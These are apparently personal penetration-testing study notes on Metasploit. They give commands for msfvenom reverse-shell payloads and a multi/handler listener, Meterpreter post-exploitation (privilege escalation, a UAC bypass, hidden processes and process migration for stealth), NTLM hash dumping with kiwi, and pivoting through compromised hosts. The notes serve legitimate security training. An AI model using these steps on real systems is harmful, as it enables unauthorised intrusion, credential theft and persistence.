 ```yaml
---
layout: blank
pagetitle: Metasploit
---
```



### The Basics
**Setup and Navigate Metasploit**
- Database isn't enabled by default
	- `sudo msfdb init`, `sudo systemctl enable postgresql`
		- To restart database, stop postgresql and then `sudo msfdb reinit`
	- Run `db_status` in the console to check
- Workspaces
	- `workspace` - create workspaces when pentesting a client 
	- `db_nmap` - works like regular nmap, but stores results in the db
		- Query db with `hosts` for hosts and `services` for services
- `show -h` to show all modules, like `exploits`, `payloads`, and `auxiliary`
	- Showing payloads is nice; default is usually reverse tcp shel

**Auxiliary Modules**
- Used for external attacks, like enumeration, scanning, fuzzing, sniffing, etc.
- `search` to search through the modules, with `type` to specify the module type
	- For example: `search type:auxiliary smb` or `search Apache 2.4.41`
	- When some exploits have multiple targets, and you have a m
- `use` to use a module with a given index from a search
	- For example: `use /auxiliary/scanner/ssh/ssh_login` to brute force ssh
- `info` to get information about the current module
- `show options` to give options that the module can use
- `set {option} {parameter}` to set an option to a given parameter, like RHOSTS to an IP
	- `unset` to unset
	- can set files by providing the path
	- can set payloads by providing the path (`/payload/linux/x86/shell_reverse_tcp`)
- `vulns` to see if any vulnerabilities have been automatically detected
- `creds` to show any discovered creds
- `run -j` to run a job in the background and create a session for one client
- `sessions` can switch between shells
	- Use CTRL+Z to exit a shell but keep it in the background
	- `sessions -l` to list available sessions
	- `sessions -i {session_number}` to switch (interact) with a session

**SearchSploit**
- `sudo apt install exploitdb`
- Contains archive of all exploit code from exploitdb
- Can search through exploits with `searchsploit {string}`
- Can copy exploits to home directory with `-m`

### Using Payloads 

**Staged/Non-Stated Payloads**
- Non-staged: payload is sent along with the exploit
	- No use of `/`  means that it's non-staged (e.g. `shell_reverse_tcp`)
- Staged: Exploit the machine for a callback, then give a larger payload
	- `/` indicates a staged payload (e.g. `shell/reverse_tcp`)
- `show payloads` to see a list of all payloads
	- `set payload {index}` to set a payload after showing them

**Meterpreter**
- Multi-function payload residing entirely in memory
- `help` to display commands in shell
- `sysinfo`  and `getuid` to gather system data
- put `l` before any command to run it on kali
- Channels:
	- Basically the same thing as `sessions` in msf
	- `shell` and Ctrl+Z to push a channel to the background
	- `channel -l` to list all channels
	- `channel -i 1` to interact with a channel
- `download {file_path}` to download a file from the system
- `upload {local_file_path} {resulting_file_path}` to upload a file to the system
- `search -f {filename}` to search from `/` for a file named `{filename}`

**Executable Payloads**
- `msfvenom` can generate malicious executables
- `msfvenom -l payloads --platform {os (windows)} --arch {arch (x86)}` to list payloads
- `msfvenom -p {path_to_payload} LHOST={IP} LPORT={kali_listening_port} -f {filetype (exe)} -o {output_executable}` to generate an executable
- To get an interactive shell via a staged payload, we can use Metasploit's *multi/handler*
	- `use multi/handler`
	- Staged payloads will now give us an interactive shell
- Steps:
	- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<port> -f c`
		- We only get one meterpreter shell, so consider these instead:
			- `windows/x64/shell_reverse_tcp`
			- `linux/x64/shell_reverse_tcp`
	- `msfconsole`
	- `use exploit/multi/handler`
	- `set payload linux/x86/meterpreter/reverse_tcp`
	- `set LHOST 10.0.0.1`
	- `set LPORT 4444`
	- `exploit -j`

### Post-Exploitation

**Meterpreter Post-Exploitation Features**

- `idletime` to see how long it's been since the system was used (e.g. don't run shit until empty)
- `getsystem` to attempt to elevate privileges to NT AUTHORITY\\SYSTEM
- `migrate {process_id}` - injects meterpreter into another process for stealth and persistence
	- If no good processes exist, create one with `execute -H -f {process (notepad)}`
		- `-H` hides the process, so no visual representation will be present

**Post-Exploitation Modules**
- After injecting ourselves into another process, our privilege level drops, so we need to escalate
- `exploit/windows/local/bypassuac_sdclt` is good for UAC bypassing on Windows
	- We can set our session to the session running the shell (from Ctrl+Z -> `bg`)
- Can load extensions directly inside the active session using `load`
	- `load kiwi` to load an extension equivalent to Mimikatz
	- `help` to view commands, like `creds_msv` to dump NTLM hashes
- Can search for post exploitation modules with `search post ...`
	- These only require a meterpreter session id

**Pivoting with Metasploit**
- After getting on a machine, we can enumerate the network in a number of ways
- If we find an internal IP from something like `ipconfig`, we can pivot to it with the following:
	- `bg` to background the session in meterpreter and `route add {IP.IP.IP.0/24} {session_number}` to add a route to an internal network reachable through a compromised host
		- We can remove old routes with `route flush`
	- We can then set RHOSTS to an internal IP and use something like `auxiliary/scanner/portscan/tcp` to scan the open ports on the internal IP
	- Running exploits is the exact same--it just required the route set up in Metasploit
- Can also use `autoroute` module to set up pivot routes
	- `use multi/manage/autoroute`
	- `set session {session_ID}` - can list all sessions with `sessions -l`
- Can also combine routes with `server/socks_proxy`
	- `use auxiliary/server/socks_proxy`
	- Then set `VERSION`, `SRVHOST` as localhost, and `run -j`
		- This will probably return the port 1080
	- Then add `socks5 127.0.0.1 1080` to `/etc/proxychains4.conf`
	- Can then use proxychains to run commands, such as `xfreerdp`
		- `sudo proxychains xfreerdp /v:{internal_target_IP} /u:luiza`
- Can also use `portfwd`
	- Use a meterpreter session with `sessions -i {session #}`
	- Then, port forward with `portfwd add -l {local_port} -p {remote_port} -r {int_IP}`

### Automation

**Resource Scripts**
- Can chain together metasploit commands and Ruby code
	- Put all commands in a script (.rc) and pass it to msfconsole with `-r`
	- Can configure AutoRunScript to automatically execute a module after the script has been run - `set AutoRunScript {module (/post/windows/manage/migrate)}`
	- `set ExitOnSession` to false to keep the multi/handler listening after a connection
	- Then, run with `-z` and `-j` to put the job in the background and stop us from interacting
- Prebuilt available at `/usr/share/metasploit-framework/scripts/resource`